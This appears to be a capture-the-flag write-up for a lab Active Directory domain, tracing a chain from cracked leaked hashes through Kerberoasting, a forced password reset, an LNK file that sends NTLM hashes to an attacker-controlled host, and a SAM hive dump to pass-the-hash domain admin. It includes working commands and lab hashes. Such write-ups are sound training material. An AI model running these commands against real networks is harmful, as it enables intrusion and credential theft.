



BuildingMagic
| Field | Value |
|---|---|
| Category | Active Directory Penetration Testing |
| Difficulty | Medium |
| Domain | BUILDINGMAGIC.LOCAL |
| Domain Controller | DC01 — 10.0.17.7 |
| Objective | Full compromise of the Active Directory environment |
Setup
Add the following entries to /etc/hosts before starting:
1. Credentials Analysis
A leaked database was provided as the starting point, containing usernames and MD5-hashed passwords for 10 domain accounts.
| ID | Username | Full Name | Role | MD5 Hash |
|---|---|---|---|---|
| 1 | r.widdleton | Ron Widdleton | Intern Builder | c4a21c4d... |
| 2 | n.bottomsworth | Neville Bottomsworth | Planner | 61ee643c... |
| 3 | l.layman | Luna Layman | Planner | 8960516f... |
| 4 | c.smith | Chen Smith | Builder | bbd151e2... |
| 5 | d.thomas | Dean Thomas | Builder | 4d14ff3e... |
| 6 | s.winnigan | Samuel Winnigan | HR Manager | 078576a0... |
| 7 | p.jackson | Parvati Jackson | Shift Lead | eada74b2... |
| 8 | b.builder | Bob Builder | Electrician | dd4137ba... |
| 9 | t.ren | Theodore Ren | Safety Officer | bfaf794a... |
| 10 | e.macmillan | Ernest Macmillan | Surveyor | 47d23284... |
After cracking the hashes offline, two valid plaintext credentials were recovered:
2. Credentials Validation
SMB authentication was tested with r.widdleton using NetExec:
Result: Authentication successful. Shares enumerated:
| Share | Permissions | Remark |
|---|---|---|
| ADMIN$ | — | Remote Admin |
| C$ | — | Default share |
| File-Share | — | Central Repository of Building Magic's files |
| IPC$ | READ | Remote IPC |
| NETLOGON | — | Logon server share |
| SYSVOL | — | Logon server share |
Note:
r.widdletonhad no write access toFile-Shareat this stage. Further enumeration was needed.
3. BloodHound Data Collection
BloodHound data was collected over LDAP using the NetExec BloodHound module:
nxc ldap dc01.buildingmagic.local -u 'r.widdleton' -p 'lilronron' \
--bloodhound --collection All --dns-server 10.0.17.7
Collection methods resolved: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
Note: ADCS enumeration returned 0 certificate templates and 0 Enterprise CAs — no ESC attack paths were available.
4. BloodHound Analysis

BloodHound node view forR.WIDDLETON@BUILDINGMAGIC.LOCAL
Analysis of r.widdleton showed:
- No write access over any AD objects
- Not a member of any privileged or interesting groups
Password Never Expires: TRUEDo Not Require Pre-Authentication: FALSE
BloodHound's Kerberoastable Users query revealed a single target:

BloodHound Pathfinding showingR.HAGGARD@BUILDINGMAGIC.LOCAL as the only Kerberoastable user
Attack path identified:
- Kerberoast
r.haggardto obtain and crack their TGS ticket - Use
r.haggard'sForceChangePasswordprivilege to reseth.potch's password
5. Compromising r.haggard — Kerberoasting
Kerberoasting requests TGS tickets for accounts with SPNs set. These tickets are encrypted with the account's password hash and can be cracked offline.
One Kerberoastable account was found:
The TGS ticket hash was captured into output.txt:
Cracking the Hash
Cracked:
r.haggard : rubeushagrid
SMB validation confirmed the credentials. r.haggard now has READ access to NETLOGON and SYSVOL.
6. Compromising h.potch — ForceChangePassword
BloodHound revealed that r.haggard holds the ForceChangePassword edge over h.potch, meaning the password can be reset without knowing the current one.

BloodHound abuse info panel for the ForceChangePassword edge onH.POTCH@BUILDINGMAGIC.LOCAL
Using Samba's net rpc tool:
net rpc password "h.potch" 'NewPass!@' \
-U "buildingmagic.local"/"r.haggard"%"rubeushagrid" \
-S '10.0.17.7'
Result: Password changed successfully.
h.potch : NewPass!@
SMB validation confirmed the new credentials, and h.potch has READ,WRITE access to File-Share.
7. Capturing h.grangon — LLMNR Poisoning via Slinky
With write access to File-Share, the slinky NetExec module was used to plant a malicious .lnk (Windows shortcut) file. When any domain user browses the share, their machine automatically attempts SMB authentication to the attacker-controlled server, leaking their NTLMv2 hash.
nxc smb buildingmagic.local -u 'h.potch' -p 'NewPass!@' \
-M slinky -o SERVER=10.200.55.240 SHARES=File-Share NAME=rodkast
The LNK file was successfully created on File-Share. Responder, listening on 10.200.55.240, captured the NTLMv2 hash for h.grangon:
The hash was cracked offline:
Cracked:
h.grangon : magic4ever
Validation confirmed h.grangon has READ,WRITE access to File-Share.
8. Post-Exploitation — Abusing SeBackupPrivilege
A WinRM session was opened with h.grangon using Evil-WinRM:
Running whoami /priv revealed a critical privilege:
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeBackupPrivilege Back up files and directories Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Warning:
SeBackupPrivilegeallows reading any file on the system regardless of ACLs — including the SAM and SYSTEM registry hives which store local password hashes.
Dumping the SAM and SYSTEM Hives
reg save hklm\sam C:\Users\h.grangon\Desktop\sam
reg save hklm\system C:\Users\h.grangon\Desktop\system
Both files were downloaded to the attacker machine and parsed with Impacket secretsdump:
Hashes recovered:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
9. Domain Compromise — Pass-the-Hash as a.flatch
Listing users on the DC revealed a.flatch in the Administrators group:
The recovered Administrator NT hash matched a.flatch due to password reuse. A Pass-the-Hash attack was performed directly:
Result: Shell obtained as
a.flatch— local Administrator on the Domain Controller.
10. Root Flag
Attack Chain Summary
Leaked DB (MD5 hashes)
|
v
r.widdleton:lilronron --> SMB Enumeration + BloodHound Collection
|
v
Kerberoasting r.haggard --> Hash cracked: rubeushagrid
|
v
ForceChangePassword on h.potch --> NewPass!@ (Write access to File-Share)
|
v
Slinky LNK in File-Share --> Responder captures h.grangon NTLMv2 hash
|
v
h.grangon:magic4ever --> Evil-WinRM shell
|
v
SeBackupPrivilege --> SAM + SYSTEM dump --> secretsdump --> Admin NT hash
|
v
Pass-the-Hash as a.flatch --> Administrator shell --> root.txt [DONE]
Tools Used
| Tool | Purpose |
|---|---|
| NetExec (nxc) | SMB/LDAP enumeration, Kerberoasting, Slinky module |
| BloodHound | AD graph analysis and attack path discovery |
| Hashcat | Offline hash cracking (MD5, Kerberos TGS) |
| Responder | NTLMv2 hash capture via LLMNR/NBT-NS poisoning |
| Evil-WinRM | Remote shell via WinRM |
| Impacket secretsdump | SAM/SYSTEM hive parsing and hash extraction |
| net rpc (Samba) | Forced password change via RPC |